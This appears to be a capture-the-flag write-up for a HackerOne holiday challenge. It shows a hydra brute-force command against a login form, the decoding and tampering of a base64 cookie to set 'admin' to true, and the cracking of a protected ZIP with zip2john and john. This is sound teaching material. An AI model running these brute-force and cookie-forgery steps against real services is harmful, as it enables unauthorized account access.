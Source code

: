 The hydra command would be:

```bash
hydra -l access -P rockyou.txt -t 64 hackyholidays.h1ctf.com https-post-form "/secure-login:username=^USER^&password=^PASS^:Invalid Password"
```

{F1126851}

Now we have username and password, using these credentials I logged in but got the following page:

{F1126852}

I was bit confused and wasn't sure what I have to do. I tried looking for the flag everywhere, in the source of the page, via the inspector of developer tools but couldn't find it. After spending sometime looking I noticed something, the cookie that was being set after the valid login looked like:

```
Cookie: securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D
```

This looked like a base64 encoded string so I decoded it and got:

```bash
-> echo "eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=" | base64 -d
{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}  
```

That means I have to change the value of `admin` to `true`. 

```bash
-> echo "{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}" | base64
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==
```

This is our new encoded cookie, if we use this to send the request on `/secure-login` endpoint we will see a new file listed on the webpage with the name `my_secure_files_not_for_you.zip`

{F1126853}

I downloaded that file but it was password protected. This mean we have to crack the password of this ZIP file. For this task I used one of the utility of [JTR](https://www.openwall.com/john/) i.e `zip2john`

```bash
-> zip2john my_secure_files_not_for_you.zip > hash.txt 
```

Then I ran [`john`](https://www.openwall.com/john/) on `hash.txt` to crack the password:

```bash
-> john hash.txt
```

Once the password was cracked I ran `john --show hash.txt` to see the password.

{F1126854}

Using this password I opened the ZIP file which had two files:
- flag.txt
- xxx.png
